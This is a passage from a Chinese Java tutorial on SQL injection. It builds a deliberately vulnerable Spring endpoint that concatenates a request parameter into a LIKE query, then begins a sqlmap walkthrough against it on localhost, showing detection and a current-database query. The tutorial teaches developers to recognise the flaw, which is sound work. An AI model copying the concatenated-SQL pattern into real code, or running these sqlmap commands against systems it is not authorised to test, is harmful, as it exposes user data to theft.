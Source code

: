 首先，在程序启动的时候使用JdbcTemplate创建一个userdata表（表中只有ID、用户名、密码三列），并初始化两条用户信息。然后，创建一个不返回任何数据的Http Post接口。在实现上，我们通过SQL拼接的方式，把传入的用户名入参拼接到LIKE子句中实现模糊查询。

```
//程序启动时进行表结构和数据初始化
@PostConstruct
public void init() {
    //删除表
    jdbcTemplate.execute("drop table IF EXISTS `userdata`;");
    //创建表，不包含自增ID、用户名、密码三列
    jdbcTemplate.execute("create TABLE `userdata` (\n" +
            "  `id` bigint(20) NOT NULL AUTO_INCREMENT,\n" +
            "  `name` varchar(255) NOT NULL,\n" +
            "  `password` varchar(255) NOT NULL,\n" +
            "  PRIMARY KEY (`id`)\n" +
            ") ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;");
    //插入两条测试数据
    jdbcTemplate.execute("INSERT INTO `userdata` (name,password) VALUES ('test1','haha1'),('test2','haha2')");
}
@Autowired
private JdbcTemplate jdbcTemplate;

//用户模糊搜索接口
@PostMapping("jdbcwrong")
public void jdbcwrong(@RequestParam("name") String name) {
    //采用拼接SQL的方式把姓名参数拼到LIKE子句中
    log.info("{}", jdbcTemplate.queryForList("SELECT id,name FROM userdata WHERE name LIKE '%" + name + "%'"));
}
```

使用sqlmap来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test
```

一段时间后，sqlmap给出了如下结果：

![](<https://static001.geekbang.org/resource/image/2f/59/2f8e8530dd0f76778c45333adfad5259.png?wh=2605*1316>)

可以看到，这个接口的name参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，**仅需简单的三步，就可以直接导出整个用户表的内容了**。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db
```

可以得到当前数据库是common\_mistakes：

```
current database: 'common_mistakes'
```
